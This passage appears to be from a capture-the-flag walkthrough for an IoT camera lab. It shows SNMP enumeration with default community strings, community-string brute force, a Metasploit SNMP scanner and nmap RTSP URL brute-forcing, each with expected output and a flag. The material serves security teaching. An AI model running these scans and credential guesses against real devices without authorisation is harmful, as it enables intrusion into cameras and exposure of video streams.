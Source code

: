 ```bash
# Test with default community string 'public'
# Why: 'public' and 'private' are defaults
snmpwalk -v2c -c public 192.168.1.132
```

**Expected Output:**
```
SNMPv2-MIB::sysDescr.0 = STRING: AXIS Camera FLAG{THEODEN40558954}
SNMPv2-MIB::sysObjectID.0 = OID: SNMPv2-SMI::enterprises.368.1.1
SNMPv2-MIB::sysUpTime.0 = Timeticks: (234523) 0:39:05.23
SNMPv2-MIB::sysContact.0 = STRING: admin@axis.local
SNMPv2-MIB::sysName.0 = STRING: AXIS-CAM-001
SNMPv2-MIB::sysLocation.0 = STRING: Building A - Floor 2
SNMPv2-MIB::sysServices.0 = INTEGER: 72
```

> 🏁 **FLAG #8 FOUND!**
> **Flag**: FLAG{T***********4}
> **Learning Objective**: SNMP information disclosure
> **OWASP IoT**: #9 - Insecure Default Settings

```bash
# Alternative SNMP enumeration methods

# Method 1: snmp-check (comprehensive)
snmp-check 192.168.1.132

# Method 2: onesixtyone (community string brute-force)
echo public > communities.txt
echo private >> communities.txt
echo admin >> communities.txt
onesixtyone -c communities.txt 192.168.1.132

# Method 3: Metasploit
msfconsole -q -x "use auxiliary/scanner/snmp/snmp_enum; set RHOSTS 192.168.1.132; run"
```

### RTSP Stream Analysis (Port 554)

#### Understanding RTSP
Real Time Streaming Protocol (RTSP) is used for video streaming. Security issues:
- Often uses weak or default credentials
- URLs may contain embedded passwords
- Streams sometimes accessible without auth

```bash
# Enumerate RTSP methods
nmap -p554 --script rtsp-methods,rtsp-url-brute 192.168.1.132
```

**Expected Output:**
```
PORT    STATE SERVICE
554/tcp open  rtsp
| rtsp-methods: 
|   OPTIONS, DESCRIBE, SETUP, PLAY, PAUSE, TEARDOWN
|   Public Methods: OPTIONS DESCRIBE SETUP TEARDOWN PLAY
| rtsp-url-brute: 
|   Discovered URLs
|     rtsp://192.168.1.132:554/stream1
|     rtsp://192.168.1.132:554/live
```
